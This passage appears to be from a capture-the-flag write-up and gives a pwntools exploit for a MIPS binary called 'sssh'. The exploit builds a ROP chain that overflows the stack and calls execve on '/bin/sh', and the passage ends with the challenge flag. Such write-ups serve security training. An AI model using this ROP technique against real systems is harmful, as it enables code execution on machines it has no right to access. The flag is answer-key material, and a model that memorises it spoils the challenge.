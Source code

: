 ```python
# └──╼ [★]$ pwn checksec sssh 
#     Arch:     mips-32-big
#     RELRO:    Partial RELRO
#     Stack:    Canary found
#     NX:       NX enabled
#     PIE:      No PIE (0x400000)

lw_ra_0x24sp_lw_s0_0x20sp_jr_ra = 0x0040dfe8
mov_v0_s0_lw_ra_0x2c_sp_stuff_jr_ra = 0x0045cb3c
addiu_a0_sp_0x58_lw_t9_0x18sp_jalr_ra = 0x004269e8
lw_t9_0x20sp_move_a2_s0_stuff_jalr_t9 = 0x00441ca0
syscall = 0x004000e4
NR_execve = 0xfab

def exploit():
    global io
    io = initialize()

    offset = 36
    payload = flat({
        offset: [
            lw_ra_0x24sp_lw_s0_0x20sp_jr_ra,
            cyclic(32),
            NR_execve, # v0
            mov_v0_s0_lw_ra_0x2c_sp_stuff_jr_ra,
            cyclic(24),
            0x0,
            cyclic(44-28),
            addiu_a0_sp_0x58_lw_t9_0x18sp_jalr_ra,
            0x0,
            0x0, # a2
            cyclic(24-8),
            lw_t9_0x20sp_move_a2_s0_stuff_jalr_t9,
            cyclic(4),
            syscall,
            cyclic(60-8),
            u32(b'/bin'),
            u32(b'/sh\x00'),
            0x0, # a1
        ]
    }, filler=b'\x00')
    io.sendline(payload)

    io.interactive()
    
if __name__ == '__main__':
    exploit()
```
{% endcode %}

{% hint style="success" %}
Flag: _**CJ{mipppssssshshshshhs\_LINZ\_IS\_HERE}**_
{% endhint %}
